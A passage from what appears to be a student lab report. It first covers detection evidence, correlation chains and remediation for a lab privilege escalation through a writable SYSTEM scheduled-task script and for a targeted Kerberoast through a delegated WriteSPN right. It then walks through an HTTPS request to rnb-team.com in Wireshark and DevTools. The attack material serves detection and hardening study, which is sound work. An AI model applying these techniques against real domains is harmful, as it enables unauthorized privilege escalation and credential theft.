| Security event | `4672` | special privileges assigned to the `CORP\lab.user` session; correlation with 4624 by Logon ID `0x9F6B3D` | WIN10 Security |
| Sysmon | `1` | process creation and command line | Sysmon Operational |
| Sysmon | `3` | network connection | Sysmon Operational |
| Sysmon | `11` | creation of `backup-original.ps1` and other file artifacts | Sysmon Operational / Sysmon View |
| PowerShell | `4104` | text of the PowerShell code block | PowerShell Operational |
| Task Scheduler | `110` | manual initiation of `\Corp Backup Task` | TaskScheduler Operational |
| Task Scheduler | `100` | start of the task instance as `NT AUTHORITY\SYSTEM` | TaskScheduler Operational |
| Task Scheduler | `129` | creation of `powershell.exe` with PID 5668 to execute the task | TaskScheduler Operational |
| Task Scheduler | `201` | completion of the `powershell.exe` action with return code 0 | TaskScheduler Operational |
| AD event | `5136` | modification of `servicePrincipalName` | DC01 Security |
| AD event | `4662` | operation on an audited AD object | DC01 Security |
| Kerberos event | `4768` | TGT request | DC01 Security |
| Kerberos event | `4769` | TGS service ticket request | DC01 Security |

### Correlation That Most Reliably Proves the Main Attack

```text
4624 from 10.125.10.10 as CORP\lab.user
→ wsmprovhost.exe / powershell.exe
→ reading the ACL of backup.ps1
→ creation of backup-original.ps1 and modification of backup.ps1
→ Task Scheduler 110/100/129: manual start of the task as SYSTEM and creation of powershell.exe
→ Sysmon: powershell.exe → net.exe → net1.exe
→ 4732: CORP\lab.user added to BUILTIN\Administrators
→ new 4624 with Elevated Token: Yes
→ 4672 with the same Logon ID 0x9F6B3D
→ new WinRM session and successful administrative command
```

### Targeted Kerberoasting Correlation

```text
5136: servicePrincipalName changed to HTTP/backup.corp.test
→ 4662: operation on svc_backup
→ 4768/4769 from lab.user/Kali
→ $krb5tgs$23$ file on Kali
→ offline password recovery
→ successful LDAP authentication as svc_backup
```


## 12. Assessment of Screenshot Completeness and Quality

### Strong Evidence

- initial and final membership of `lab.user` in Administrators;
- `execution-context.txt = nt authority\system`;
- Security 4625, 4624, 4672, and 4732 with the required fields; the repeated 4624/4672 events after escalation correlate directly by Logon ID `0x9F6B3D`;
- ACL `CORP\IT-Support:(M)`;
- Sysmon View: initial WinRM reconnaissance, creation of `backup-original.ps1`, the SYSTEM chain `powershell.exe → net.exe → net1.exe`, and the new privileged WinRM session;
- Task Scheduler 110, 100, 129, and 201: manual initiation, start as SYSTEM, creation of `powershell.exe` with PID 5668, and completion with code 0;
- PowerShell 4104;
- initial and final SPN, TGS file, offline password recovery, and verification through LDAP;
- DC01 events 5136, 4662, 4768, and 4769.

### Missing Evidence

1. Security Event ID 4688 during the attack time interval: the Audit Process Creation subcategory was found to be disabled at the time of the scenario, so process creation was reconstructed through Sysmon Event ID 1.

Microsoft Defender settings were intentionally not changed during the work: the component was not disabled or reconfigured. Its initial state was not recorded separately.

## 13. Recommendations for Remediating the Vulnerabilities

### WIN10 and Scheduled Task

1. Remove the `CORP\IT-Support:(M)` ACE from `backup.ps1`; only Administrators/SYSTEM or a separate deployment account should have write access.
2. Store privileged task scripts in a directory with a controlled DACL and regularly verify the effective permissions of all files executed as SYSTEM.
3. Verify not only the task XML and settings, but also the ACL of the executable file, working directory, and all imported modules.
4. Do not use `-ExecutionPolicy Bypass` without an operational need. Execution Policy is not a security boundary, but constant use of Bypass reduces the protective value of the policy and makes it more difficult to search for suspicious activity.
5. After the laboratory, restore the initial script, delete the result files, remove `lab.user` from Administrators, and verify 4733.

### WinRM

1. Do not grant standard domain users access to the full `Microsoft.PowerShell` endpoint without JEA or another constrained endpoint.
2. Keep the Windows Firewall allowlist limited to administrative management hosts; do not open TCP 5985 to the entire network.
3. In a production environment, prefer WinRM over HTTPS with Kerberos authentication and centralized management; do not use Basic authentication and unencrypted transport.
4. Monitor 4624 Logon Type 3, `wsmprovhost.exe`, WinRM Operational, and unusual source IP addresses.

### Active Directory and Service Accounts

1. Remove the delegated `servicePrincipalName` write right for `IT-Support`; apply the principle of least privilege.
2. When analyzing ACLs through BloodHound, verify who has `GenericWrite`, `GenericAll`, `WriteProperty`, or the `Validated write to service principal name` right over user objects.
3. Replace the weak `svc_backup` password with a long random one; it is better to use a gMSA, where the password is rotated automatically.
4. Do not set `Password never expires` for a regular service account without compensating controls.
5. Disable RC4 for Kerberos where compatible and use AES; this does not eliminate Kerberoasting completely, but makes offline cracking more difficult and removes etype 23.
6. Create an alert for the sequence: atypical 5136 for `servicePrincipalName` → 4769 for the same account with etype 23 → request from a workstation that is not a service host.
7. After the test, remove the synthetic SPN and confirm cleanup with an LDAP query and 5136.

### Monitoring and Evidence Preservation

1. Export relevant EVTX files instead of relying only on screenshots.
2. Store the Sysmon View export, the filters used, and a consistent timeline together with the EVTX files; for larger laboratories, use Windows Event Forwarding or a SIEM.
3. Correlate events by `Logon ID`, `ProcessGuid`, `ProcessId`, time, and IP address.
4. Set a sufficient log size and overwrite policy so that the attack does not displace early events.
5. Obscure passwords and other secrets in screenshots before submitting the report.


## 14. Conclusion

In a controlled environment with Kali Linux, Windows 10, and Windows Server 2022, local administrative privileges were successfully obtained on WIN10. The initial domain user `CORP\lab.user` had permitted WinRM access and, through membership in `CORP\IT-Support`, could modify `C:\ProgramData\CorpBackup\backup.ps1`. The Scheduled Task was configured to execute this file periodically as `NT AUTHORITY\SYSTEM`; because the five-minute trigger did not execute, I started the task manually, after which the modified script added `lab.user` to the local Administrators group. Administrative access was confirmed after creating a new WinRM session.

The attack was reconstructed using Security 4624, 4625, 4672, and 4732; Task Scheduler events 110, 100, 129, and 201; Sysmon telemetry on process creation, network connections, and file creation; Sysmon View visualization; PowerShell 4104; and Windows Firewall logs. The strongest evidence is the correlation of the manual start of `\Corp Backup Task` as SYSTEM, creation of `powershell.exe` with PID 5668, the process chain `powershell.exe → net.exe → net1.exe`, the `net localgroup` command, event 4732, and the new `CORP\lab.user` session, for which 4624 and 4672 have the same Logon ID `0x9F6B3D`.

Additionally, abuse of delegated WriteSPN was demonstrated: a synthetic SPN was added to `svc_backup`, a TGS was obtained, the weak password was recovered offline and verified through LDAP. Events 5136, 4662, 4768, and 4769 were recorded on DC01. Therefore, the work shows not only the compromise path, but also how incorrect ACLs, privileged automated tasks, and weak AD rights are reflected in system telemetry.


## 15. Sources Used

1. Microsoft Sysinternals — Sysmon: <https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon>
2. Microsoft — Understanding Sysmon events: <https://learn.microsoft.com/en-us/windows/security/operating-system-security/sysmon/sysmon-events>
3. Sysmon Modular configuration: <https://github.com/olafhartong/sysmon-modular>
4. SysmonTools: <https://github.com/nshalabi/SysmonTools>
5. Microsoft — PowerShell logging on Windows: <https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows>
6. Microsoft — Configure Windows event auditing for Defender for Identity: <https://learn.microsoft.com/en-us/defender-for-identity/deploy/configure-windows-event-collection>
7. Microsoft — Event 4624: <https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4624>
8. Microsoft — Event 4672: <https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4672>
9. Microsoft — Event 4688: <https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4688>
10. Microsoft — Advanced Audit Policy Configuration: <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/advanced-audit-policy-configuration>
11. Microsoft — `icacls`: <https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls>
12. Microsoft — WinRM installation and ports: <https://learn.microsoft.com/en-us/windows/win32/winrm/installation-and-configuration-for-windows-remote-management>
13. Microsoft — PowerShell Remoting security: <https://learn.microsoft.com/en-us/powershell/scripting/security/remoting/winrm-security>
14. Impacket `GetUserSPNs.py`: <https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py>
15. bloodyAD: <https://github.com/CravateRouge/bloodyAD>
16. BloodHound.py / BloodHound CE ingestor: <https://github.com/dirkjanm/BloodHound.py>
17. Nmap reference guide: <https://nmap.org/book/man.html>
18. MITRE ATT&CK — Windows Remote Management, Scheduled Task, and Kerberoasting: <https://attack.mitre.org/techniques/enterprise/>


## Task 2. The Path of an HTTPS Request from the Browser to the Web Server

**Resource under investigation:** `https://rnb-team.com`  
**Main tools:** Windows PowerShell, Wireshark, Chrome DevTools

## 1. Purpose and Conditions of the Work

The purpose of the work is to sequentially describe what happens after entering the address `https://rnb-team.com` in a browser: from URL parsing and the DNS query to establishing TCP and TLS connections, transmitting the HTTP request, processing the response by the server, and forming the completed page in the browser window.

During the work, I separately considered:

- the OSI model and data encapsulation;
- DNS and A records;
- the TCP three-way handshake;
- the main fields of Ethernet, IPv4, and TCP headers;
- TLS 1.3 negotiation;
- the HTTP `GET` method, request and response headers;
- loading HTML, CSS, JavaScript, fonts, and images;
- the difference between IP addresses, MAC addresses, ports, IP TTL, and DNS TTL.

The capture was performed on my computer. Only values visible in the provided screenshots are used in the text. Stages for which there is no separate frame are described as a general networking principle without inventing specific addresses or results.

## 2. Initial Network Data

During the investigation, the computer was connected to a wireless local network.

| Parameter | Value                          |
|---|---|
| Client IPv4 address | `192.168.0.150`                |
| Subnet mask | `255.255.255.0`                |
| Default gateway | `192.168.0.1`                  |
| DNS server | `192.168.0.1`                  |
| DHCP server | `192.168.0.1`                  |
| Client MAC address | `FB-27`                        |
| DNS A records for `rnb-team.com` | `104.21.89.4`, `172.67.155.54` |
| DNS TTL of A records | `300` seconds                  |
| HTTPS server port | TCP `443`                      |


*Figure 1 — Fragment of `ipconfig /all` with the client IPv4 address, mask, gateway, and DNS and DHCP servers.*

The most important fields:

- **IPv4 Address** — the address of my computer on the local network;
- **Subnet Mask** — defines the boundaries of the local subnet;
- **Default Gateway** — the router to which packets destined for external networks are sent;
- **DNS Servers** — the server contacted by the system to obtain the domain's IP address;
- **Physical Address** — the data-link MAC address of the network adapter.

The address `192.168.0.150/24` shows that the addresses of the `192.168.0.0/24` subnet are directly local. The web server addresses `104.21.89.4` and `172.67.155.54` do not belong to it, so the frame is sent not directly to the server, but to the gateway `192.168.0.1`.

## 3. General Sequence After Pressing Enter

After the URL is entered, the browser and operating system perform the following main stages:

| No. | Stage | Main protocol / layer |
|---:|---|---|
| 1 | URL parsing: `https` scheme, domain, and `/` path | HTTP, application layer |
| 2 | Looking up the domain address in cache and through DNS | DNS, application layer |
| 3 | Selecting the route, the gateway MAC address, and transmitting the frame | IP, Ethernet |
| 4 | Establishing a TCP connection to port 443 | TCP |
| 5 | Negotiating the TLS version, algorithms, and keys | TLS |
| 6 | Sending the encrypted HTTP request `GET /` | HTTP inside TLS |
| 7 | Receiving and processing the request on the service side | web server / application |
| 8 | Receiving the HTTP response `200 OK` | HTTP inside TLS |
| 9 | Parsing HTML and loading additional resources | HTTP, TLS, TCP/IP |
| 10 | Building DOM, CSSOM, layout, paint, and displaying the page | browser |

These stages are performed very quickly and partly in parallel. For example, the browser may maintain several TCP/TLS connections, reuse an established connection, or load several resources simultaneously.

## 4. OSI Model and Encapsulation

### 4.1. OSI Model Layers

The OSI model consists of seven layers. It is a conceptual model: in the real TCP/IP stack, some functions of several layers are combined, so not every layer has a separate universal header.

| OSI layer | What happens in this work | PDU | Fields or data that can be seen |
|---:|---|---|---|
| 7. Application | DNS queries, HTTP `GET`, HTTP response | data / message | domain, method, path, status, HTTP headers |
| 6. Presentation | encryption and encoding through TLS | data / TLS record | content type, length, cipher suite, supported versions, key share |
| 5. Session | maintaining the state of the secure session and reusing the connection | data | TLS session ID, connection state; there is no separate permanent L5 header |
| 4. Transport | reliable TCP connection between two ports | segment | source/destination port, Seq, Ack, Flags, Window, Checksum, Options |
| 3. Network | delivery of IPv4 packets between the client and remote address | packet | source/destination IP, TTL, Protocol, Total Length, Flags |
| 2. Data Link | transmitting the frame within the current local segment | frame | source/destination MAC, EtherType |
| 1. Physical | transmitting bits by Wi-Fi radio signal and then through physical channels | bits | there is no separate network header |

For this request, the practical stack looks as follows:

```text
HTTP
↓
TLS
↓
TCP
↓
IPv4
↓
Ethernet / local link
↓
bits and physical signal
```

### 4.2. Which Headers Are Added

As data moves from layer 7 to layer 1, **encapsulation** is performed.

```text
HTTP request
→ TLS record with encrypted HTTP data
→ TCP segment with TCP header
→ IPv4 packet with IP header
→ Ethernet frame with MAC header
→ sequence of bits
```

On the server side, the reverse process occurs — **decapsulation**:

```text
bits
→ Ethernet frame
→ IPv4 packet
→ TCP segment
→ TLS record
→ HTTP request
```

Each layer mainly reads its own header:

- a switch works with MAC addresses;
- a router works with IP addresses and TTL;
- TCP identifies a connection by IP addresses and ports, and controls ordering and acknowledgements;
- TLS encrypts application data;
- the web application receives the already decrypted HTTP request.

### 4.3. MTU, MSS, and Data Segmentation

In the TCP SYN in my capture, the client proposed `MSS 1460`. This is consistent with the typical Ethernet MTU of `1500` bytes:

```text
1500 bytes MTU
− 20 bytes of IPv4 header
− 20 bytes of TCP header without additional options
= 1460 bytes of TCP payload
```

MTU limits the size of the IP packet that can be transmitted through the link without fragmentation. MSS limits the actual useful TCP data. The large TLS Client Hello in the capture was reassembled by Wireshark from several TCP segments, which clearly demonstrates the practical result of encapsulation and segmentation.

### 4.4. Approximate Appearance of the Headers

A simplified form of the headers without all bit-level details is provided below.

**Ethernet II — usually 14 bytes before the payload:**

```text
[ Destination MAC: 6 B ]
[ Source MAC:      6 B ]
[ EtherType:       2 B ]
[ Payload: IPv4 packet ]
```

From it, it is possible to determine between which devices the frame is transmitted **in the current local segment** and which protocol is contained inside.

**IPv4 — at least 20 bytes:**

```text
[Version + IHL] [DSCP/ECN] [Total Length]
[Identification] [Flags + Fragment Offset]
[TTL] [Protocol] [Header Checksum]
[Source IP]
[Destination IP]
[Options, if any]
[Payload: TCP segment]
```

The IP header shows the end network addresses, hop limit, packet size, possibility of fragmentation, and next-layer protocol.

**TCP — from 20 to 60 bytes:**

```text
[Source Port] [Destination Port]
[Sequence Number]
[Acknowledgment Number]
[Header Length + Flags] [Window]
[Checksum] [Urgent Pointer]
[Options, if any]
[Payload: TLS data]
```

From the TCP header, it is possible to identify the specific connection, handshake stage, byte order, acknowledgments, receive-window size, and supported options.

**TLS Record — a 5-byte service header before the TLS data:**

```text
[Content Type: 1 B]
[Legacy Version: 2 B]
[Length: 2 B]
[Handshake or encrypted application data]
```

Inside the handshake message, there is its own type and length. After the keys are established, the HTTP content is encrypted, so externally, mainly the TLS record, direction, and size are visible, but not the page text.

**HTTP/2 in DevTools:**

```text
:method    GET
:scheme    https
:authority rnb-team.com
:path      /
Accept: ...
Accept-Encoding: ...
...
```

At the application layer, it is possible to determine which resource was requested, which method was used, which formats the client accepts, and which status was returned by the server.

## 5. DNS: Obtaining the Domain IP Address

### 5.1. Clearing the Local DNS Cache

Before the capture, I cleared the DNS cache so that the system would not use an old local response:

```powershell
ipconfig /flushdns
```


*Figure 2 — Successful clearing of the local DNS cache before reopening the site.*

The command removes previously saved DNS results from the client cache. After that, the browser must contact the configured DNS resolver again.

### 5.2. Type A DNS Query

The computer `192.168.0.150` sent a type `A` query for the name `rnb-team.com` to the DNS server `192.168.0.1`.


*Figure 3 — Type A DNS Query for `rnb-team.com`, sent by client `192.168.0.150` to the local DNS resolver `192.168.0.1`.*

Key fields:

- **Transaction ID `0x60ad`** — the identifier by which the client matches the query and response;
- **Response: Message is a query** — this is a query, not a response;
- **Questions: 1** — the message contains one question;
- **Type A** — query for an IPv4 address;
- **Class IN** — Internet class;
- **Destination Port 53** — the standard DNS port.

In this specific capture, the DNS message was transmitted over TCP port 53. DNS often uses UDP, but operation over TCP is also a standard option.

### 5.3. DNS Response

The DNS resolver returned two A records:

```text
rnb-team.com → 104.21.89.4
rnb-team.com → 172.67.155.54
```


*Figure 4 — DNS Response for `rnb-team.com` with two A records and a TTL of 300 seconds.*

The most important fields:

- **Response: Message is a response** — the packet is a response;
- **Reply code: No error** — the DNS query was processed without an error;
- **Answer RRs: 2** — two answers were received;
- **Address** — the IPv4 address to which the browser can connect;
- **Time to live: 300** — the response may be cached for 300 seconds;
- **Time: 62.943100 ms** — the time between the query and this response in Wireshark.

The screenshot also shows queries of type `HTTPS`. This is a separate DNS record type through which a modern client can obtain additional service parameters. It is not the HTTP request to the web page itself.

> **DNS TTL and IP TTL are different fields.** DNS TTL determines the record caching time in seconds. IP TTL limits the number of routers through which a specific IP packet can pass.

## 6. Transmitting the Packet Through the Local Network and the Internet

After obtaining the IP address, the system compares it with its own subnet. The address `172.67.155.54` does not belong to `192.168.0.0/24`, so Windows sends the frame to the gateway `192.168.0.1`.

For this, the system needs the gateway's MAC address. If it is absent from the ARP cache, an ARP request is performed. There is no separate ARP screenshot in the set, so no specific ARP exchange is attributed to this capture in the report. At the same time, the Wireshark frames show the result:

```text
Source MAC:     fb:27  — client network adapter
Destination MAC: c1:7b:68  — local TP-Link router
```

The destination IP address remains the web host, while the destination MAC address in the local frame is the nearest gateway. After each router, the data-link header changes, while the destination IP address is preserved.

The address `192.168.0.150` is private. NAT is normally performed on the home router: the private source IP and, if necessary, the source port are replaced with external values. The external address after NAT is not visible in the capture on the client itself, so I do not specify it.

## 7. Establishing the TCP Connection

### 7.1. Disabling QUIC to Demonstrate TCP

Initially, the browser used QUIC, which operates over UDP and is used by HTTP/3. In this mode, there is no classic TCP three-way handshake. To complete the assignment, I temporarily disabled QUIC in Chromium.


*Figure 5 — Temporary disabling of Experimental QUIC protocol to obtain an HTTPS connection over TCP.*

After that, the investigated connection had the following parameters:

```text
Client: 192.168.0.150:50650
Server: 172.67.155.54:443
TCP stream: 128
```

Port `50650` is a temporary client port. Port `443` is the standard HTTPS server port.

### 7.2. First Step: SYN

The client sends `SYN`, proposing to create a TCP connection.


*Figure 6 — First packet of the TCP three-way handshake: SYN from `192.168.0.150:50650` to `172.67.155.54:443`.*

Main fields:

- **Source Port `50650`** — temporary browser port;
- **Destination Port `443`** — the server's HTTPS service;
- **Sequence Number `0`** — initial relative sequence number;
- **Acknowledgment Number `0`** — the client is not yet acknowledging anything;
- **SYN: Set** — request to establish the connection;
- **Window `64240`** — initial amount of data the client is ready to receive;
- **MSS `1460`** — maximum TCP payload of one segment;
- **Window Scale `256`** — multiplier for extending the TCP window;
- **SACK Permitted** — support for selective acknowledgment of missing ranges.

### 7.3. Second Step: SYN, ACK

The server responds with `SYN, ACK`: it agrees to create the connection and acknowledges the client's SYN.


*Figure 7 — Second packet of the TCP three-way handshake: SYN/ACK from `172.67.155.54:443` to client port `50650`.*

Main fields:

- **Source Port `443`** — response from the HTTPS server;
- **Destination Port `50650`** — return to the specific client socket;
- **Sequence Number `0`** — the server's initial relative number;
- **Acknowledgment Number `1`** — the server acknowledged the client's SYN;
- **SYN: Set, ACK: Set** — simultaneous proposal of the server sequence and acknowledgment of the client sequence;
- **MSS `1460`** — the server also declared the acceptable TCP payload size;
- **SACK Permitted** — the server supports selective acknowledgment.

### 7.4. Third Step: ACK

The client acknowledges the server's SYN with an `ACK` packet.


*Figure 8 — Third packet of the TCP three-way handshake: the client's ACK, after which the TCP connection is considered established.*

Main fields:

- **Sequence Number `1`** — the SYN has already used one sequence number;
- **Acknowledgment Number `1`** — the client acknowledged the server's initial SYN;
- **ACK: Set** — the packet is an acknowledgment;
- **TCP Segment Len `0`** — there is no application data in this packet yet;
- **Calculated Window Size `65792`** — the actual window after applying the window scale.

Complete handshake result:

```text
192.168.0.150:50650 → 172.67.155.54:443  SYN
172.67.155.54:443   → 192.168.0.150:50650 SYN, ACK
192.168.0.150:50650 → 172.67.155.54:443  ACK
```

### 7.5. Transition from TCP to TLS

Immediately after the TCP connection was established, the client began the TLS handshake with a `Client Hello` message.


*Figure 9 — TLS Client Hello in the same TCP stream after completion of SYN → SYN/ACK → ACK.*

The screenshot shows that TLS data is transmitted in TCP segments with the `PSH, ACK` flags. `ACK` acknowledges the received bytes, and `PSH` requests that the received data be passed to the application process without unnecessary delay.

## 8. TLS Handshake

TCP provides byte delivery, but does not encrypt them itself. For HTTPS, TLS starts after TCP. Its task is to negotiate protection parameters, verify the server, and establish shared encryption keys.

A different complete TCP stream was used for detailed TLS analysis:

```text
Client: 192.168.0.150:50710
Server: 172.67.155.54:443
TCP stream: 188
```

### 8.1. Client Hello


*Figure 10 — TLS Client Hello: the client proposes supported versions, cipher suites, and extensions.*

Key fields:

- **Handshake Type: Client Hello** — the client's first main message;
- **Random** — a random value included in the cryptographic context of the session;
- **Session ID** — a service field for compatibility and matching session parameters;
- **Cipher Suites** — the list of algorithms supported by the client;
- **supported_versions** — the actual list of supported versions, here TLS 1.3 and TLS 1.2;
- **application_layer_protocol_negotiation (ALPN)** — negotiation of the application protocol, for example HTTP/2;
- **key_share** — data for key exchange;
- **encrypted_client_hello** — the ECH extension for hiding sensitive parts of Client Hello.

The `Version` field inside Client Hello shows TLS 1.2, but this is a **legacy field** for compatibility. Actual TLS 1.3 support is transmitted in `supported_versions`.

### 8.2. Client Hello Extensions and ECH


*Figure 11 — TLS Client Hello extensions: external SNI `cloudflare-ech.com`, supported groups, key share, and signature algorithms.*

In the external Client Hello, Wireshark shows:

```text
SNI: cloudflare-ech.com
```

At the same time, the `encrypted_client_hello` extension is present. This means that the actual parameters of the inner Client Hello are hidden using ECH. Therefore, the external SNI should not be mistakenly interpreted as a different site.

Correlation with the resource under investigation is performed through the sequence:

```text
DNS rnb-team.com
→ A record 172.67.155.54
→ TCP connection to 172.67.155.54:443
→ TLS Client Hello in the same stream
```

Other important fields:

- **supported_groups** — groups supported by the client for key exchange;
- **key_share** — the specific proposed key-exchange parameters;
- **signature_algorithms** — digital signature algorithms the client is ready to verify;
- **compress_certificate** — support for certificate compression.

### 8.3. Server Hello


*Figure 12 — TLS Server Hello: the server selected TLS 1.3, cipher suite `TLS_AES_128_GCM_SHA256`, and key share parameters.*

Key fields:

- **Handshake Type: Server Hello** — response to the client's proposal;
- **Supported Version: TLS 1.3** — the negotiated version;
- **Cipher Suite `TLS_AES_128_GCM_SHA256`** — the selected authenticated encryption algorithm;
- **key_share** — the key-exchange parameters selected by the server;
- **Application Data** — after the keys are negotiated, subsequent TLS messages and HTTP data are transmitted encrypted.

The packet list also contains `Change Cipher Spec`. In TLS 1.3, such a record may be used for compatibility with older network devices; the selected version remains TLS 1.3.

During the TLS handshake, the browser also verifies the server certificate and its correspondence to the domain name. In TLS 1.3, most handshake messages after Server Hello are already protected, so without session keys, their contents cannot be read in plaintext in Wireshark.

## 9. One Packet as an Example of Complete Encapsulation

Packet No. 29583 contains TLS Client Hello and simultaneously shows headers from several layers.

### 9.1. Frame, Ethernet, and IPv4


*Figure 13 — Upper part of the Client Hello packet: Frame → Ethernet II → IPv4.*

The frame shows:

- **Frame Length `612 bytes`** — the total size of the captured frame;
- **Protocols in frame `eth:ethertype:ip:tcp:tls`** — the complete protocol chain;
- **Ethernet Source `fb:27`** — the MAC address of my adapter;
- **Ethernet Destination `7b:68`** — the MAC address of the local TP-Link gateway;
- **EtherType `IPv4 (0x0800)`** — the frame contains IPv4;
- **IP Source `192.168.0.150`** — the client before NAT;
- **IP Destination `172.67.155.54`** — the remote service address;
- **TTL `128`** — the packet's initial hop limit;
- **Protocol `TCP (6)`** — the IPv4 payload must be passed to TCP;
- **Don’t Fragment** — the packet must not be fragmented by routers.

IP TTL decreases at each router. If it reaches zero, the packet is discarded, which protects the network from an infinite routing loop.

### 9.2. TCP Header and Segmentation


*Figure 14 — TCP header of the segment carrying part of the TLS Client Hello.*

Main fields:

- **Source Port `50710` / Destination Port `443`** — identify the client socket and HTTPS service;
- **Sequence Number** — the position of these bytes in the TCP stream;
- **Acknowledgment Number** — the number of the next byte expected from the other side;
- **Header Length `20 bytes`** — in this segment, the TCP header has no additional options;
- **PSH, ACK** — the segment carries data and simultaneously acknowledges previous bytes;
- **Window / Calculated Window Size** — the amount of data the receiver allows to be sent without a new acknowledgment;
- **Checksum** — integrity check of the TCP header and data;
- **TCP payload `558 bytes`** — part of the TLS message in this segment;
- **Reassembled TCP Segments** — Wireshark assembled the complete message from several segments.

The `Checksum Status: Unverified` indication in a local capture does not necessarily mean that the packet is damaged. Often, the checksum is calculated by the network adapter after the packet has already been passed to the capture mechanism.

### 9.3. TLS Inside TCP


*Figure 15 — TLS Client Hello after reassembly of the TCP segments.*

Wireshark shows:

```text
2 Reassembled TCP Segments: 1400 + 558 bytes
TLS Handshake Protocol: Client Hello
```

This demonstrates that the boundary of a TLS message does not have to coincide with the boundary of one TCP segment. TCP transmits an ordered byte stream, and Wireshark reassembles it and only then decodes TLS.

The Client Hello shows:

- a list of cipher suites;
- `supported_versions` with TLS 1.3 and TLS 1.2;
- `psk_key_exchange_modes`;
- ALPN;
- a set of TLS extensions.

Thus, one logical application exchange passes through several layers and receives several different headers.

## 10. Detailed TCP SYN Header

A SYN from another connection was used for additional analysis:

```text
192.168.0.150:50710 → 172.67.155.54:443
TCP stream 188
```


*Figure 16 — Detailed TCP SYN with ports, flags, window, and TCP options.*

The most important fields:

| Field | Value in the screenshot | Purpose |
|---|---:|---|
| Source Port | `50710` | distinguishes this client connection from others |
| Destination Port | `443` | selects the HTTPS service |
| Sequence Number | relative `0` | establishes the beginning of the client's byte numbering |
| Acknowledgment Number | `0` | there is no acknowledged data in the first SYN yet |
| Header Length | `32 bytes` | the TCP header contains additional options |
| SYN | `Set` | request to establish the connection |
| Window | `64240` | the client's base receive buffer |
| MSS | `1460 bytes` | maximum TCP payload of one segment |
| Window Scale | `8`, multiplier `256` | allows a larger TCP window to be used |
| SACK Permitted | enabled | allows acknowledgment of individual received ranges |
| Checksum | `Unverified` | verification may have been offloaded to the network adapter |

A port is not the address of a computer. The IP identifies the host, while the TCP port identifies a specific service or socket inside the host.

## 11. HTTP GET and the Server Response

After the TLS handshake is completed, the browser sends the HTTP request inside the encrypted TLS channel. Because of encryption, the contents of `GET` are not visible in ordinary Wireshark, so the actual HTTP fields were verified in Chrome DevTools.

### 11.1. Main Document Request and Response Headers


*Figure 17 — Main HTTP request to `https://rnb-team.com/`, the `200 OK` response, and server headers in Chrome DevTools.*

The **General** section shows:

| Field | Value | Meaning of the field |
|---|---|---|
| Request URL | `https://rnb-team.com/` | complete address of the requested resource |
| Request Method | `GET` | obtaining the main HTML document |
| Status Code | `200 OK` | the server successfully processed the request |
| Remote Address | `104.21.89.4:443` | actual IP address and port of this browser connection |
| Referrer Policy | `strict-origin-when-cross-origin` | rules for transmitting the Referer header |

DNS returned two addresses. In Wireshark, the stream to `172.67.155.54` was examined in detail, while in DevTools, the main document is shown through `104.21.89.4:443`. This is not a contradiction: the browser may select one of several DNS addresses, open several connections, or use another established connection.

Important response headers:

- **Content-Type `text/html; charset=utf-8`** — the response contains HTML in UTF-8;
- **Content-Encoding `zstd`** — the response body is compressed;
- **Cache-Control `private, no-cache, no-store, max-age=0, must-revalidate`** — the browser must not use a stale copy without verification;
- **Cf-Cache-Status `DYNAMIC`** — the response was not a regular static object from the Cloudflare cache;
- **Cf-Ray** — an identifier for processing the request in the Cloudflare network;
- **Alt-Svc `h3=":443"`** — the server reports that it supports HTTP/3, although QUIC was disabled for this test;
- **Content-Security-Policy** — restricts permitted sources and unsafe methods of embedding content;
- **Link** — preloading fonts and styles;
- **Date** — the time when the HTTP response was generated.

### 11.2. Request Headers


*Figure 18 — Headers of the main GET request and additional security headers of the response.*

Main pseudo-headers:

- **`:authority rnb-team.com`** — the domain contacted by the client;
- **`:method GET`** — the request method;
- **`:path /`** — the path to the root resource;
- **`:scheme https`** — the secure scheme.

Pseudo-headers beginning with a colon are characteristic of HTTP/2 or HTTP/3. Because QUIC was disabled in the test and the exchange passes through TCP, this corresponds to the use of HTTP/2 over TLS/TCP.

Other important request headers:

| Header | What it communicates |
|---|---|
| `Accept` | which content types the browser can accept |
| `Accept-Encoding` | support for `gzip`, `deflate`, `br`, `zstd` |
| `Accept-Language` | priority of the languages `uk`, `pl`, `en-US`, `en` |
| `Cache-Control: no-cache` | requirement to verify that the response is current |
| `Pragma: no-cache` | compatible additional instruction not to use an old cache |
| `Priority` | resource loading priority |
| `Sec-CH-Prefers-Color-Scheme: dark` | preference for a dark color scheme |
| `Sec-CH-UA-*` | characteristics of the browser, platform, and mobile mode |
| `Sec-Fetch-Dest: document` | the result must be the main document |
| `Sec-Fetch-Mode: navigate` | the request is a page navigation |
| `Sec-Fetch-Site: none` | navigation was initiated without another site as the source |
| `Upgrade-Insecure-Requests: 1` | the client prefers secure resources |
| `User-Agent` | information about the browser and environment; mobile emulation is visible here |

The response also shows:

- **X-Frame-Options** — restriction on opening the page in a frame;
- **X-Permitted-Cross-Domain-Policies: none** — prohibition of the corresponding cross-domain policy;
- **X-XSS-Protection** — a deprecated compatibility XSS filter header;
- **X-Middleware-Rewrite: /uk** — middleware redirected internal processing of the root path to the Ukrainian version;
- **X-Powered-By: Next.js, Payload** — technologies declared by the application.

### 11.3. GET and POST

In this scenario, the main document was obtained using the `GET` method.

```http
GET /
Host / :authority: rnb-team.com
```

`GET` is used to obtain a resource and usually does not contain the main request body. `POST` is used when the client sends data to the server for processing, for example a form, file, or JSON API request. The `POST` method was not used in the main request shown, so its actual packet is not attributed to this capture.

## 12. How the Web Service Processed the Request

The exact internal infrastructure of the origin server is not visible from the client-side capture. Based on the actual IP addresses and HTTP headers, a limited conclusion can be drawn about the following path:

```text
browser
→ Cloudflare edge at one of the DNS addresses
→ TLS and HTTP request processing
→ obtaining or generating a dynamic response
→ middleware route for /uk
→ HTML response 200 OK
```

Indicators in the screenshots:

- `Cf-Ray` and `Cf-Cache-Status` show Cloudflare's involvement;
- `Cf-Cache-Status: DYNAMIC` indicates that the response was not a regular static cache hit;
- `X-Middleware-Rewrite: /uk` shows internal routing;
- `X-Powered-By: Next.js, Payload` indicates the declared web application stack;
